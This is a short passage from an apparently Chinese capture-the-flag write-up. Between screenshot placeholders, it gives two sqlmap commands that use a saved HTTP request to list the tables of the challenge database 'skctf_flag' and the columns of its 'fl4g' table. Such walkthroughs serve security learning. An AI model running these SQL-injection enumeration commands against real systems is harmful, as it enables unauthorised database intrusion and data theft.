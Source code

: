 ![在这里插入图片描述](img/7613e12b9aa7f93589734cbc818b1d2f.png)
执行`sqlmap.py -r 111.txt -D skctf_flag --tables`查看数据库 skctf_flag 的表：

![在这里插入图片描述](img/285d86cb9661d8f5db6f5294972f229a.png)
执行命令`sqlmap.py -r 111.txt -D skctf_flag -T fl4g --columns`查看 fl4g 表的字段：
